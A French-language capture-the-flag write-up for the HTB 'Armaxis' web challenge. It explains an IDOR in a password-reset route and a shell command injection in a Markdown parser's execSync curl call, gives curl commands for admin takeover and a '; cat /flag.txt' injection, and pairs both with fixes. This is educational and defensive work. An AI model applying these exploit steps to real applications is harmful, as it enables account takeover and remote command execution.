

## Résumé rapide

> [!summary] TL;DR
> Deux vulnérabilités enchaînées :
> 1. **IDOR sur le reset de mot de passe** → permet de prendre le compte admin sans connaître son mot de passe
> 2. **Command Injection** dans un parseur Markdown → permet d'exécuter des commandes shell et de lire le flag

**Flag final :** `HTB{m4rkd0wn_bugs_1n_th3_w1ld!}`

---

## 1. Découverte de l'application

L'application "Armaxis" est un site Node.js/Express qui simule une plateforme de dispatch d'armes. Elle contient :

- Un système d'inscription / connexion classique (email + mot de passe)
- Un système de reset de mot de passe par token envoyé par email
- Une zone admin (`/weapons/dispatch`) permettant de créer une "arme" avec une note au format Markdown
- Une zone utilisateur (`/weapons`) qui affiche les armes reçues, note rendue en HTML

La structure des fichiers :

```
challenge/
├── database.js       -> gestion SQLite (users, weapons, password_resets)
├── routes/index.js   -> toutes les routes de l'app
├── markdown.js        -> parseur markdown custom
├── utils.js           -> JWT + middleware d'authentification
```

---

## 2. Vulnérabilité n°1 : IDOR sur le reset de mot de passe

### Explication de base

Un système de "mot de passe oublié" fonctionne normalement comme ceci :

1. Tu demandes un reset pour **ton** email
2. Le serveur génère un **token unique lié à ton compte** et te l'envoie par mail
3. Tu renvoies ce token avec ton nouveau mot de passe
4. Le serveur doit vérifier que **le token appartient bien au compte dont tu changes le mot de passe**

L'étape 4 est celle qui doit absolument faire le lien entre le token et le bon utilisateur. Si ce lien n'est pas vérifié, n'importe qui possédant un token valide (même pour son propre compte) peut changer le mot de passe de n'importe qui d'autre, juste en précisant un autre email dans la requête.

C'est exactement ce qui se passe ici.

### Le code vulnérable

Dans `routes/index.js` :

```js
router.post("/reset-password", async (req, res) => {
  const { token, newPassword, email } = req.body;

  const reset = await getPasswordReset(token);
  if (!reset) return res.status(400).send("Invalid or expired token.");

  const user = await getUserByEmail(email);
  if (!user) return res.status(404).send("User not found.");

  await updateUserPassword(user.id, newPassword);
  await deletePasswordReset(token);
  res.send("Password reset successful.");
});
```

Ce que fait ce code, étape par étape :

- Il récupère l'entrée de la table `password_resets` correspondant au `token` envoyé. Cette entrée contient un champ `user_id` qui dit "ce token appartient à cet utilisateur".
- Il récupère **séparément** un utilisateur via l'`email` fourni dans le corps de la requête, sans aucun rapport avec le token.
- Il met à jour le mot de passe de **cet utilisateur récupéré par email**, pas de celui associé au token.

Le champ `reset.user_id`, qui existe et qui aurait dû servir à vérifier la cohérence, n'est jamais utilisé. C'est une négligence côté serveur : la logique de vérification "ce token appartient bien à ce compte" a été oubliée.

### Pourquoi c'est exploitable

Un attaquant peut donc :
- S'inscrire normalement avec son propre email
- Demander un reset pour lui-même (le serveur génère un token valide et le lie à SON `user_id`)
- Récupérer ce token (dans ce challenge via un faux serveur mail, `email-app`)
- Renvoyer ce token, mais en précisant **l'email de l'admin** au lieu du sien

Le serveur va :
1. Vérifier que le token existe → oui (c'est bien un token valide, juste pas censé servir pour l'admin)
2. Chercher l'utilisateur avec l'email admin → le trouve
3. Changer le mot de passe de l'admin avec la valeur choisie par l'attaquant

Ce type de faille s'appelle un **IDOR** (Insecure Direct Object Reference) : le serveur fait confiance à un identifiant fourni par le client (ici l'email) sans vérifier qu'il correspond bien au contexte légitime (le token de reset possédé).

### Exploitation pratique

```bash
# 1. Inscription
curl -X POST http://TARGET/register \
  -d "email=attaquant@test.com&password=Password123"

# 2. Demande de reset pour soi-même
curl -X POST http://TARGET/reset-password/request \
  -d "email=attaquant@test.com"
# -> récupérer le token reçu (via l'email-app du challenge)

# 3. Utiliser CE token mais viser l'email admin
curl -X POST http://TARGET/reset-password \
  -d "token=<TOKEN_RECU>&email=admin@armaxis.htb&newPassword=Hacked123!"

# 4. Connexion en admin avec le nouveau mot de passe
curl -X POST http://TARGET/login \
  -d "email=admin@armaxis.htb&password=Hacked123!" -c cookies.txt
```

> [!warning] Correction possible
> La correction est simple : après avoir récupéré `reset` via le token, il faut vérifier que `reset.user_id === user.id` avant de faire quoi que ce soit. Si ce n'est pas le cas, refuser la requête.

---

## 3. Vulnérabilité n°2 : Command Injection dans le parseur Markdown

### Explication de base

Une **command injection** se produit quand une application construit une commande shell (celle qu'on taperait dans un terminal) en y insérant directement une donnée fournie par l'utilisateur, sans la filtrer.

Le shell interprète certains caractères comme des séparateurs de commandes : `;`, `|`, `&&`, `$()`, les backticks `` ` ``, etc. Si un attaquant arrive à glisser un de ces caractères dans une donnée qui finit dans une commande shell, il peut faire exécuter **une commande complètement différente** de celle prévue par le développeur.

### Le code vulnérable

Dans `markdown.js` :

```js
const { execSync } = require('child_process');

function parseMarkdown(content) {
    return md.render(
        content.replace(/\!\[.*?\]\((.*?)\)/g, (match, url) => {
            const fileContent = execSync(`curl -s ${url}`);
            const base64Content = Buffer.from(fileContent).toString('base64');
            return ``;
        })
    );
}
```

Décomposition :

- La fonction cherche dans le texte markdown les motifs de type image `` grâce à une expression régulière
- Pour chaque URL trouvée, elle exécute littéralement la commande shell : `curl -s <URL>`
- `URL` est injectée **telle quelle**, sans aucun échappement ni validation
- Le résultat de la commande (censé être le contenu de l'image téléchargée) est encodé en base64 et affiché dans une balise ``

Le développeur voulait juste télécharger une image distante et l'intégrer en base64. Le problème est qu'il a utilisé `execSync` avec une chaîne de caractères construite par concaténation, plutôt qu'une méthode qui isole proprement les arguments (par exemple `execFile` avec des arguments séparés, ou carrément une librairie HTTP comme `axios`/`fetch` au lieu de faire un appel shell).

### Pourquoi c'est exploitable

Puisque `url` est injecté directement dans une chaîne shell, il suffit d'y glisser un point-virgule pour terminer la commande `curl` prématurément et enchaîner sur une autre commande de son choix :

```

```

Ce qui donne, une fois inséré dans le template de la commande :

```bash
curl -s nonexistent; cat /flag.txt
```

Le shell interprète ceci comme **deux commandes séparées** :
1. `curl -s nonexistent` → échoue silencieusement (URL invalide)
2. `cat /flag.txt` → s'exécute normalement et affiche le contenu du fichier flag

Comme `execSync` capture **toute la sortie standard (stdout) de l'exécution complète**, le contenu du flag se retrouve capturé, encodé en base64, et injecté dans l'attribut `src` de la balise `` générée.

### Exploitation pratique

Cette fonctionnalité n'est accessible que depuis la route admin `/weapons/dispatch`, d'où la nécessité de la vulnérabilité n°1 au préalable pour obtenir les droits admin.

```bash
curl -X POST http://TARGET/weapons/dispatch \
  -b cookies.txt \
  -d "name=x&price=1&note=&dispatched_to=attaquant@test.com"
```

L'arme est enregistrée en base avec la note déjà transformée en HTML (contenant le résultat de la commande en base64).

### Récupération du résultat

En se rendant sur `/weapons` (connecté avec le compte ayant reçu l'arme), la note s'affiche sous forme d'image cassée contenant le base64 dans son attribut `src` :

```html

```

Il suffit de décoder ce base64 :

```bash
echo "SFRCe200cmtkMHduX2J1Z3NfMW5fdGgzX3cxbGQhfQo=" | base64 -d
```

Résultat :

```
HTB{m4rkd0wn_bugs_1n_th3_w1ld!}
```

> [!warning] Correction possible
> Ne jamais construire une commande shell par concaténation de chaînes avec une donnée utilisateur. Utiliser une librairie HTTP native (`axios`, `node-fetch`) pour télécharger l'image, ou à minima valider strictement le format de l'URL et échapper les caractères spéciaux si `execSync` est vraiment nécessaire.

---

## 4. Chaîne d'exploitation complète



---

## 5. Notes et leçons à retenir

- **Toujours vérifier la cohérence entre un token de sécurité et l'objet qu'il autorise à modifier.** Un token valide ne suffit pas : il faut vérifier qu'il correspond bien à la ressource ciblée.
- **Ne jamais faire confiance à une donnée utilisateur insérée dans une commande shell.** Préférer les appels API/librairies natives plutôt que de déléguer à `curl` via un shell.
- Ces deux failles, prises séparément, ont un impact limité. Chaînées ensemble, elles permettent une prise de contrôle totale du serveur (RCE).